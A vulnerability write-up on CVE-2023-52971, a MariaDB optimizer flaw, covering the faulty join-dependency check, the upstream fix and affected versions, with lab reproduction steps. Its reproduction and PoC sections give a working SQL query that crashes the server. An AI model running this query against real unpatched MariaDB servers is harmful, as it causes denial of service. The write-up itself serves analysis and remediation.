



# CVE-2023-52971 CWE-1038 MariaDB DoS

## Vulnerability Background
- **MariaDB :** An open-source relational database management system developed by the founders of MySQL, highly compatible with MySQL. It features high performance, high security, and ease of use, supporting multiple storage engines to ensure reliable data storage and efficient read/write operations. At the same time, MariaDB also possesses powerful query optimization capabilities, enhancing database performance and being widely used across various industries, providing strong support for data storage and management.
- **CWE-1038 (Insecure Automated Optimizations):* *Unsafe automatic optimizations. This refers to software performing performance or functional optimizations without sufficient security consideration, resulting in logical errors or security vulnerabilities during the optimization process. This allows attackers to exploit these incorrect or insecure optimization behaviors to trigger crashes, data tampering, or bypass security checks. Typical cases include crashes caused by database query optimizers mishandling external references.

## Vulnerability Mechanism
In routine operations, MariaDB's SQL Planner attempts to optimize complex connections. It uses a function called fix_all_splittings_in_plan. Due to the lack of security checks, a well-designed SQL query can put the function in a bad state and cause the server to crash. Attackers do not need special privileges—they only need to be able to run SQL queries.

When handling JOIN ON conditions containing nested subqueries, the MariaDB optimizer fails to properly maintain dependencies between tables when referencing outer tables (i.e., external references), causing the optimizer to incorrectly construct the JOIN order in the execution plan, which triggers assertion failures or invalid memory access during the query execution plan generation, ultimately causing server crashes.

## Vulnerability Location
In the **sql \sql _select.cc** file, line **17689**, the `simplify_joins` function is a key function in the MariaDB / MySQL Query Optimizer, mainly responsible for simplifying and analyzing dependencies between `JOIN` structures in SQL queries. Provide accurate semantic information for subsequent execution plan generation (such as connection order optimization).

In line **17845**, the conditional statement is used to check whether the table referenced in the current `LEFT JOIN` `ON` condition meets the condition. If so, it means the connection can be made directly without needing to set additional dependencies; Otherwise, dependencies need to be set.

That is, if all tables used in the current `ON` expression either belong to allowed special types (such as external references, random numbers), or have already been processed (`prev_used_tables`), then we can directly add the current `table` to the `prev_table`'s dependency.

However, this condition only considers `OUTER_REF_TABLE_BIT` and `RAND_TABLE_BIT`, but does not address the complexity of external references to the outer table of subqueries. When the `ON` expression depends on "tables outside the current nested structure" but these tables are not in the `prev_used_tables`, this check is true without adding dependencies, resulting in invalid connection order. This is where the **vulnerability** lies.

```c
// 17845 rows ********** determine whether to set prev_table dependencies on tables ******* vulnerability points******
if (!((prev_table->on_expr->used_tables() &   // Get the table used in the ON clause
       // Excluding special dependencies (which does not affect connection order): Remove external references (such as outer subquery references) and RAND() references
       ~(OUTER_REF_TABLE_BIT | RAND_TABLE_BIT)) &
      // Exclude tables that have already been processed
      ~prev_used_tables))
    // If no future table is referenced, there is no need to add dependencies, so it can be handled immediately
  prev_table->dep_tables|= used_tables; 
```

## Remediation
The fix focuses on improving the logic of the `simplify_joins()` function in the optimizer to correctly handle `ON` conditional references in nested `LEFT JOIN` with **subquery outer tables**.

Add judgment logic: when the table of `prev_table->on_expr` dependencies (`used_tables()`) contains an outer reference (but not `OUTER_REF_TABLE_BIT`), you still need to manually set dependencies to avoid JOIN order breaking. Find the bitmap of the peer table at the same level of `table`. If the table dependent on the `ON` expression of `prev_table` is not among those peers, then assume `prev_table` depends on the current `table`, and can be processed directly afterward.

```c
if (!(prev_on_expr_deps & peers)) {
    prev_table->dep_tables |= used_tables;
}
```

## Affected Versions
MariaDB Server 10.10 to 10.11.* 

MariaDB Server 11.0 to 11.4.*

## Environment Setup
In the Docker environment, MariaDB version is 10.11.5, the administrator is root, password is 12345, and there is a database test_db.



## Vulnerability Reproduction
1. Enter the container command line;

   ```bash
   docker exec -it mariadb-10.11.5 bash
   ```

2. Use the root user to connect to MariaDB's test_db database, password 12345;

   ```bash
   mariadb -u root -p test_db
   ```

3. After executing the following two SQL commands in sequence, you will see MariaDB crash and exit the container;

   ```sql
   CREATE TABLE t0 (c0 INT(1) NOT NULL, c1 INT NOT NULL PRIMARY KEY);
   
   SELECT ra4.c1 ca6 FROM t0 ra3 LEFT OUTER JOIN t0 ra4 ON ra3.c0 = ra4.c1 WHERE ra3.c0 IN (SELECT CAST(ra6.c1 IS NULL AS SIGNED) ca0 FROM t0 ra5 LEFT JOIN (t0 ra6 LEFT JOIN t0 ra7 ON ra3.c0 = ra7.c1) ON ra5.c1 = ra3.c0);
   ```

   

4. Checking the container logs, you can see that the MariaDB service process (`mysqld`) has received signal 11 (SIGSEGV), which is a segmentation fault, indicating that the program is attempting to access unallocated or illegal memory addresses, causing a crash.

   ```bash
   docker logs mariadb-10.11.5
   ```

   

## PoC Analysis
PoC is used to filter certain `c0` values in the `t0`, determine through a series of `LEFT JOIN` connections whether they meet specific conditions (such as connection failure or NULL), and finally output whether these satisfying values have matching primary keys in another table (also `t0`).  `c1` 。 During execution, this SQL statement triggers the MariaDB optimizer to convert the subquery into a semi-join. At this time, when analyzing the JOIN dependency, the optimizer does not properly handle references to the outer table (ra3) in the ON clause, mistakenly assuming the internal structure of the subquery is closed, resulting in the generation of an incorrect dependency graph; When attempting to construct a JOIN order, it eventually crashes because the dependency order cannot satisfy the constraints.

```sql
-- Create table t0 containing two columns, c0 and c1
CREATE TABLE t0 (c0 INT(1) NOT NULL, c1 INT NOT NULL PRIMARY KEY);

-- Return ra4.c1 and name it ca6
SELECT ra4.c1 ca6
-- T0 is also known as RA3
FROM t0 ra3
-- Left outer connection, t0 alias ra4, and ra3.c0 matched ra4.c1
-- For rows in the left table ra3 where the matching record is not found in the right table ra4, the field portion corresponding to the right table ra4 in the result set will be displayed as NULL, while the values of the left table ra3 will still be retained in the results.
LEFT OUTER JOIN t0 ra4 ON ra3.c0 = ra4.c1
WHERE ra3.c0 IN (
    -- Check whether ra6.c1 is NULL (if it is, the CAST result is true), used to determine if the left join is successful
  SELECT CAST(ra6.c1 IS NULL AS SIGNED) ca0
  FROM t0 ra5
  LEFT JOIN (
      -- t0 is also known as ra6 and ra7. These two tables perform LEFT JOIN, with the joining condition ra3.c0 = ra7.c1
      -- Records in the RA6 table and those in RA7 that meet the joining conditions are combined. If there are no matching records in RA7, the corresponding field value is NULL
      -- ra3 is an alias for the outer SELECT, which is referenced by the subquery here, forming what is called an outer reference.
    t0 ra6 LEFT JOIN t0 ra7 ON ra3.c0 = ra7.c1
  ) 
    -- It also uses the outer ra3.c0, meaning the entire subquery is coupled with the ra3 table, breaking the usual principle of subquery independence
    ON ra5.c1 = ra3.c0
);
```

## References
[NVD - CVE-2023-52971](https://nvd.nist.gov/vuln/detail/CVE-2023-52971)

[[MDEV-32084\] Assertion in best_extension_by_limited_search(), or crash elsewhere in release build - Jira](https://jira.mariadb.org/browse/MDEV-32084)

[MDEV-32084: Assertion in best_extension_by_limited_search() ... · MariaDB/server@3b4de4c](https://github.com/MariaDB/server/commit/3b4de4c281cb3e33e6d3ee9537e542bf0a84b83e#diff-f322db3ae6e0b0481f72dc54b56d2a92405729d49e7f307d2089c09713e35f54)
